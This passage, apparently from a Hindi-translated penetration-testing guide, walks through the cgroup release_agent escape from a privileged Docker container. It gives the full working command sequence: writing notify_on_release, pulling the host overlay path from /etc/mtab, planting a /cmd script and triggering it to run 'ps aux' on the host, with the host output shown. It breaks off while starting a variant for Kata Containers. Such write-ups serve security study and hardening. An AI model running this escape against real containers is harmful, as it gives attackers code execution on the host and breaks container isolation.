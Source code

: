 कंटेनर में हम जो फ़ाइलें जोड़ते हैं या संशोधित करते हैं, वे होस्ट पर मौजूद होती हैं, और दोनों दुनिया से उन्हें संशोधित करना संभव है: कंटेनर में पथ और होस्ट पर उनका पथ।

नीचे दिए गए ऑपरेशन्स को देखा जा सकता है:
```text
root@b11cf9eab4fd:/# echo 1 > /tmp/cgrp/x/notify_on_release
root@b11cf9eab4fd:/# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@b11cf9eab4fd:/# echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
ध्यान दें `/cmd` स्क्रिप्ट के पथ पर, जिसे हम होस्ट पर बनाने वाले हैं:
```text
root@b11cf9eab4fd:/# cat /tmp/cgrp/release_agent
/var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/cmd
```
अब, हम `/cmd` स्क्रिप्ट ऐसे बनाते हैं जिससे यह `ps aux` कमांड को एक्जीक्यूट करेगा और इसके आउटपुट को होस्ट पर आउटपुट फाइल के पूर्ण पथ को निर्दिष्ट करते हुए कंटेनर के `/output` में सेव करेगा। अंत में, हम `/cmd` स्क्रिप्ट को प्रिंट भी करते हैं ताकि इसकी सामग्री देख सकें:
```text
root@b11cf9eab4fd:/# echo '#!/bin/sh' > /cmd
root@b11cf9eab4fd:/# echo "ps aux > $host_path/output" >> /cmd
root@b11cf9eab4fd:/# chmod a+x /cmd
root@b11cf9eab4fd:/# cat /cmd
#!/bin/sh
ps aux > /var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/output
```
अंत में, हम "x" चाइल्ड cgroup के अंदर तुरंत समाप्त होने वाली प्रक्रिया को उत्पन्न करके हमला कर सकते हैं। `/bin/sh` प्रक्रिया बनाकर और उसके PID को "x" चाइल्ड cgroup डायरेक्टरी में `cgroup.procs` फाइल में लिखकर, `/bin/sh` के बाहर निकलने के बाद होस्ट पर स्क्रिप्ट निष्पादित होगी। होस्ट पर किया गया `ps aux` का आउटपुट फिर कंटेनर के अंदर `/output` फाइल में सहेजा जाता है:
```text
root@b11cf9eab4fd:/# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@b11cf9eab4fd:/# head /output
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  1.0  17564 10288 ?        Ss   13:57   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S    13:57   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_gp]
root         4  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_par_gp]
root         6  0.0  0.0      0     0 ?        I<   13:57   0:00 [kworker/0:0H-kblockd]
root         8  0.0  0.0      0     0 ?        I<   13:57   0:00 [mm_percpu_wq]
root         9  0.0  0.0      0     0 ?        S    13:57   0:00 [ksoftirqd/0]
root        10  0.0  0.0      0     0 ?        I    13:57   0:00 [rcu_sched]
root        11  0.0  0.0      0     0 ?        S    13:57   0:00 [migration/0]
```
# `--privileged` फ्लैग v2

पिछले PoCs तब अच्छे से काम करते हैं जब कंटेनर को एक storage-driver के साथ कॉन्फ़िगर किया गया हो जो माउंट पॉइंट का पूरा होस्ट पथ प्रकट करता है, उदाहरण के लिए `overlayfs`, हालांकि हाल ही में मैं कुछ कॉन्फ़िगरेशन से मिला जो स्पष्ट रूप से होस्ट फाइल सिस्टम माउंट पॉइंट को प्रकट नहीं करते थे।

## Kata Containers
```text
root@container:~$ head -1 /etc/mtab
kataShared on / type 9p (rw,dirsync,nodev,relatime,mmap,access=client,trans=virtio)
```
[Kata Containers](https://katacontainers.io/) मूल रूप से कंटेनर की रूट फाइल सिस्टम को `9pfs` के ऊपर माउंट करता है। यह Kata Containers वर्चुअल मशीन में कंटेनर फाइल सिस्टम के स्थान के बारे में कोई जानकारी प्रकट नहीं करता है।
